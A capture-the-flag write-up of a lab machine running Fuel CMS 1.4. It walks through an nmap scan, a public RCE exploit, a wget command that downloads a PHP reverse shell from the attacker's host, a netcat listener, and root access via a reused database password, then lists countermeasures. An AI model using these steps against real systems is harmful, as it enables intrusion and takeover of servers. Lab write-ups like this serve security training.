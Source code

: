 # Ignite

![img/ignite-logo.png](img/ignite-logo.png)

## Recon

- **Nmap**

    Starting to find all available port & service with nmap

    ```bash
    Nmap scan report for 10.10.191.118
    Host is up (0.20s latency).
    Not shown: 999 closed ports
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    | http-robots.txt: 1 disallowed entry 
    |_/fuel/
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Welcome to FUEL CMS
    ```

    Found just two open ports (`http` & `ssh`) . The web service seems using a Fuel CMS, so let's check it out

- **CMS**

    ![img/Untitled.png](img/Untitled.png)

    When we open the page, it shows a default CMS installation page, from here we know the cms and the version is (`Fuel CMS v1.4`) , let's see if this CMS has a know vulnerability

    ![img/Untitled%201.png](img/Untitled%201.png)

    This CMS have a RCE vulnerability that we can use to execute code in server shell. We can download and use the exploit from [exploit-db](https://www.exploit-db.com/exploits/47138)

## Exploit

- **Getting Reverse Shell**

    After download the [exploit](https://www.exploit-db.com/raw/47138) file, we need to adjust the exploit . Fill the `url` with the machine ip address

    ![img/Untitled%202.png](img/Untitled%202.png)

    This exploit assume us have `python3` installed on our machine, to use the exploit just type

    ```bash
    python3 47138.py
    ```

    I check the exploit to run `uname -a` and we get the linux version of the machine, this indicate the exploit work properly.

    ![img/Untitled%203.png](img/Untitled%203.png)

    Next we try to get reverse shell with php reverse shell file that can be downloaded from [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php).

    Adjust the file change ip with our kali machine ip and the port with the listening port in netcat for later. 

    ![img/Untitled%204.png](img/Untitled%204.png)

    Next upload this reverse php file to machine, for host the directory i use [updog](https://github.com/sc0tfree/updog) 

    ![img/Untitled%205.png](img/Untitled%205.png)

    Then download the reverse php file using `wget`

    ```bash
    wget http://<kali_ip>:<kali_port>/php-reverse-shell.php
    ```

    and check if the download was success

    ![img/Untitled%206.png](img/Untitled%206.png)

    So now we can prepare the netcat to listen on port 4444

    ![img/Untitled%207.png](img/Untitled%207.png)

    Then run the php file on the target machine

    ![img/Untitled%208.png](img/Untitled%208.png)

    ![Ignite%2069f43a296ec64f249189e9d1cd66b0eb/Untitled%209.png](Ignite%2069f43a296ec64f249189e9d1cd66b0eb/Untitled%209.png)

    Next we must upgrade our reverse shell from raw netcat to bash shell so the shell is more interactive using `Python` 

    ![img/Untitled%2010.png](img/Untitled%2010.png)

- **User Flag**

    After gaining reverse shell to the machine, next we searh for the user flag, usually in the CTF game, `user-flag.txt` is located on `/home/username/` 

    ![img/Untitled%2011.png](img/Untitled%2011.png)

    Tha's the user flag, next we try to search the root flag

- **Root Flag (Pwned)**

    Before we go deeper to escalate our privilege, we must conduct the basic enum like find our current working directory or try to find interesting file like `backup`, `configuration`, or `database file`. After try to locate and open "interesting files" we find in `/var/www/html/fuel/application/config` directory contain all configuration files for the framework

    ![img/Untitled%2012.png](img/Untitled%2012.png)

    Try to open the `database.php` file and we found the root account for the database

    ![img/Untitled%2013.png](img/Untitled%2013.png)

    Lets try to login as root in shell with this password, if the root has the same password, we can login and get the root privilege

    ![img/Untitled%2014.png](img/Untitled%2014.png)

    The root password account is same with it's database account, so let's we find the root flag, usually in `/root` directory

    ![img/Untitled%2015.png](img/Untitled%2015.png)

    That's its, we found the root flag and pwning the machine

## Countermeasure

From this game we can learn two things : 

- Update all software or CMS in the web server to the newest version, or patch it if we know there are known vulnerability in the several version.
- Never use the same password for several service account, especially for the root account. Use the different,strong password for all service and for all user
- Encrypt important backup or configuration if we want store it's in our web server.
